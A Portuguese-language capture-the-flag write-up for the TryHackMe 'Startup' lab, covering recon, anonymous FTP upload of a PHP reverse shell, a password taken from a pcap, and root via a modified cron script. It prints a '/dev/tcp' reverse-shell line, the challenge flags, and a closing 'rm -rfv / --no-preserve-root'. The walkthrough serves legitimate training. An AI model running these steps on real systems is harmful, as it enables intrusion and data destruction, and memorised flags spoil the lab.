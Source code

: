 CTF STARTIUP 

Ao gerar o ip dei um nmap para ver as portas abertas

    nmap -A -sV IP

Encontrava-se 3 portas(ftp 21, tcp 22, tcp 80)

sendo o ftp anonymous era so entrar...

    ftp ip
    username: anonymous
    pass: no pass

3 arquivos

    ftp
    notice.txt
    important.jpg

Ao ler o notice.txt encontrava-se um possivel username Maya

Ao baixar a imagem e abri-la tinha um meme do among us...

    get important.jpg

Ao dar um gobuster para encontravar diretorios

    gobuster dir -u IP -w directory-list-2.3-small.txt -x php,html,txt

encontrava o /files que resultava no mesmo arquivo do ftp...

assim era so pegar um webshell, usei o do pentestmokey 

    https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Criei um arquivo no kali chamado shellphp.php 

    nano shellphp.php

Modifiquei o ip e a porta que e solicitado no codigo

e coloquei na pasta ftp

    put shellphp.php

Assim eu fiz o netcat

    nc -nvlp 1333

Ao abrir o IP/files/ftp cliquei para rodar esse codigo assim conseguindo acesso ao www-data

Conseguindo acesso a 1 flag do desafio "recipe.txt"

    cat recipe.txt

    Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
    
Procurando pelo sistema encontrei uma pasta chamado incidents ao dar um cd nessa pasta tinha um arquivo chamado

    suspicious.pcapng

Ao baixa-lo

    get suspicious.pcapng /var/www/html/files/ftp

Abrindo esse arquivo automaticamente abria o Wireshark um aplicativo de analise de rede

Olhando no Wireshark notei que ele mostrava alguns diretorios root, selecionei a opcao follow tcp e la dentro tenha uma requisicao da senha do www-data

    senha www-data c4ntg3t3n0ughsp1c3

Sendo essa a senha do www-data e como dentro do /home tinha um usuario chamado lennie era so fazer a conexao ssh com o user lennie

    ssh lennie@IP
    pass: c4ntg3t3n0ughsp1c3

Assim sendo possivel acessar a 2 flag "user.txt"

    cat user.txt
    THM{03ce3d619b80ccbfb3b7fc81e46c0e79}

Ainda no usuario lennie tinha uma pasta chamada scripts ao abrir tinha um aquivo .sh

    planner.sh

O "planner.sh" executava um arquivo root dentro dele e tinha sua rota

    /etc/print.sh

Esse arquivo executava como root, sendo assim era so pegar uma reverse shell para conseguir ter acesso 

    https://www.revshells.com/

assim criando uma shell sh e modificando o arquivo "print.sh" com esse script

Script

    sh -i >& /dev/tcp/IPTRYHACKME/1333 0>&1

NetCat

    nc -nvlp 1333

Assim tendo acesso a pasta root que tinha o arquivo "root.txt"

    cat root.txt
    THM{f963aaa6a430f210222158ae15c3d76d}

Assim finalizando o desafio..

    touch dannydev19.txt
    rm -rfv / --no-preserve-root

FLAGS

    Flag 1: love
    Flag 2: THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
    Flag 3: THM{f963aaa6a430f210222158ae15c3d76d}

![image](https://user-images.githubusercontent.com/86691253/183748747-f4abcbe4-48b4-4b4f-b198-b87965cb371e.png)
![image](https://user-images.githubusercontent.com/86691253/183748759-793db94e-3539-4cce-a34f-f7f24a30c2cd.png)
![image](https://user-images.githubusercontent.com/86691253/183748774-6a6245d1-c26f-4fec-bbbc-8d2a9920e6cb.png)

